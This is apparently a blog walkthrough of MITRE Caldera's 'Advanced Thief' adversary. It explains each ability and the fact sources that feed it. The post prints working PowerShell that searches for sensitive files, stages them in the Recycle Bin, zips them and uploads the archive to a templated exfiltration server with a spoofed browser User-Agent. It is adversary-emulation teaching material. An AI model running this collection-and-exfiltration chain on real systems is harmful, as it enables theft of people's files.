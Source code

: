 ```yaml
---
title: Caldera Fact Sources by Theift
draft: false
authors:
  - admin
date: 2024-05-02
tags:
  - Caldera
  - Theif
  - Fact Sources 
  - Exfil
---
```


Were going to walk throught the Advanced Theif adversary and understand whats going on. We'll start first with Abilities, setup Fact Sources last and disect commands in the middle. 
This adversary is simple and has only a few abilities to configure setup.  

## Theif

This adversary searches for files, compress them and exfiltrate to the attackers server.  

## Abilities

### 1. Advanced File Search and Stager
- **Tactic**:                    Collection
- **Technique ID**:        [T1119](https://attack.mitre.org/techniques/T1119/)
- **Technique Name**: Automation Collection
- **Payload**: [file_search.ps1](https://github.com/mitre/stockpile/blob/bac8177b6146bbe0f760e973428710d77e0081f2/payloads/file_search.ps1) [file_search.sh](https://github.com/mitre/stockpile/blob/bac8177b6146bbe0f760e973428710d77e0081f2/payloads/file_search.sh)

The payload is really well written. Clean and easy to ready. Something you could use to learn PowerShell with. 

This script essentially searches the box for files of interest or a specific file. Then places them in a staging location. 

**Command**

```shell
.\file_search.ps1 -Extensions '#{windows.included.extensions}' -ExcludedExtensions '#{windows.excluded.extensions}'
 -Directories '#{windows.included.directories}' -ExcludedDirectories '#{windows.excluded.directories}'
 -AccessedCutoff #{file.last.accessed} -ModifiedCutoff #{file.last.modified}
 -SearchStrings '#{file.sensitive.content}' -StagingDirectory '#{windows.staging.location}'
 -SafeMode $#{safe.mode.enabled} -PseudoExtension #{pseudo.data.identifier}
```


- In the command its passing several fact sources to the payload. 
- the use of `-Extensions` sets file extensions and directories to include and exclude with `-Excluded Extenstions`.
- Its specifies what extensions and directories to exclude with `-Directories`, ` -ExcludedDirectories`. This is going to speed up the search on the box by narrowing the scope.
- The access cutoff will be in days. Its looking back 30 days for files a user has accessed or modified with `-AccessedCutoff`
- With `-SearchStings` the fact passes a list of key word to look for.
- It sets the staging directory with `-StagingDirectory`. The location where all the files will be dumped before compressing
- `-SafeMode` is an interesting switch paired with `-PseudoExtension`. In the payload you see `[bool] $SafeMode = $False,` and a fact source. This a Boolean with the default being False. Safemode is the switch to use  `-PseudoExtension`or not and represents the basename of the file.  So if set to True and you passed the file special.txt. That would be the only file return once the payload is efiltrated. Example being Report.pdf this would be `Report`.  If `-SafeMode` is set to True it will use `-PseudoExtension` and make sure the file matches this.


### 2. Compress Staged Directory
- **Tactic**: Exfiltration
- **Technique ID**: [T1560.001](https://attack.mitre.org/techniques/T1560/001/)
- **Technique Name**: Archive Collected Data: Archive via Utility 

```shell
Compress-Archive -Path #{host.dir.staged} -DestinationPath #{host.dir.staged}.zip -Force;
sleep 1; ls #{host.dir.staged}.zip | foreach {$_.FullName} | select
```

- Compress-Archive takes the path of our the staging directory. That being the Recycle Bin. 
- Destination Path is where you're putting the files. Looks like its the same location. Its will create a .zip of the files.
- With `-Force` set it overrides any existing files with the same name
- In Caldera you can see the response of the command. So we see the `;` adding another command sleeping for 1 second. Followed by a ls -Piped-> into a foreach loop on the output of ls.  Unsure why this is needed.

### 3. Exfil Staged Directory
- **Tactic**: Exfiltration
- **Technique ID**: [T1041](https://attack.mitre.org/techniques/T1041/)
- **Technique Name**: Exfiltration Over C2 Channel


Finally into the final stage of the adversary where the data is exfiltrated.  


```python
# Set variables
$ErrorActionPreference = 'Stop';
$fieldName = "#{host.dir.compress}";
$filePath = "#{host.dir.compress}";
$url = "#{server}/file/upload";

Add-Type -AssemblyName 'System.Net.Http';

$client = New-Object System.Net.Http.HttpClient;
$content = New-Object System.Net.Http.MultipartFormDataContent;
$fileStream = [System.IO.File]::OpenRead($filePath);
$fileName = [System.IO.Path]::GetFileName($filePath);
$fileContent = New-Object System.Net.Http.StreamContent($fileStream);
$content.Add($fileContent, $fieldName, $fileName);
$client.DefaultRequestHeaders.Add("X-Request-Id", $env:COMPUTERNAME + '-#{paw}');
$client.DefaultRequestHeaders.Add("User-Agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");

$result = $client.PostAsync($url, $content).Result;
$result.EnsureSuccessStatusCode();
```

This is what a http request looks like in powershell. They build the HTTP client set the file and adds a user agent. Lastly we package it up and ship it back.


- Right in the beginning we set variables and use the Fact Source details. 
- Next we call to .Net System.Net.Http library and load it. 
- Then the assembly of the client is performed and building of the request. Like setting the User-Agent and attaching the payload.


https://learn.microsoft.com/en-us/dotnet/api/system.net.http?view=net-8.0

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.4


## Fact Sources

Now that we've covered the Abilities lets focus on Fact Sources. They are a little confusing at first. Fact Sources are just configuration settings for your Adversaries abilities. Abilities can tap into templating to set template variable from facts. 

Facts are a collection of key/values that are used to pass into an Operation. As the Operation executes it populates the templated text in a command or ability with the Fact Sources value. Like a the shapes box when we were younger. Its possible to run an Adversary in an Operation without the correct fact sources.

Continuing on, below are the Fact Sources needed with a description of what role they play in the Abilities.

| Fact Source                  | Description                                                                  |
| ---------------------------- | ---------------------------------------------------------------------------- |
| windows.included.extensions  | File extensions that should not be ignored                                   |
| windows.excluded.extensions  | File extensions to ignore                                                    |
| windows.included.directories | Base Directory to crawl                                                      |
| windows.excluded.directories | What directories are out of scope                                            |
| file.last.accessed           | Time Frame -30 Days                                                          |
| file.last.modified           | Time Frame -30 Days                                                          |
| file.sensitive.content       | Its a list of possible keywords used to identify sensitive content           |
| windows.staging.location     | Location to stage the compression. Its set to Recycle bin... kind of cleaver |
| pseudo.data.identifier       | specific file name                                                           |

### File Compression

| Fact Source     | Description                                      |
| --------------- | ------------------------------------------------ |
| host.dir.staged | Location the files will be stored and compressed |

### Exfil

| Fact Source       | Description                                  |
| ----------------- | -------------------------------------------- |
| host.dir.compress | where to save the compress the file          |
| paw               | Paw print, this is the identity of the agent |
| server            | Target Exfil Server                          |

### Prebuilt Fact Sources

The Fact Source entries form above are included in the **Exfil Operation** collection of facts. 
We are missing a few of the facts that are required. 

#### Missing Fact 
| Fact Source       | Description                                  |
| ----------------- | -------------------------------------------- |
| host.dir.staged   | Loation where the files where staged         | 
| host.dir.compress | where to save the compress the file          |
| paw               | Paw print, this is the identity of the agent |
| server            | Target Exfil Server                          |


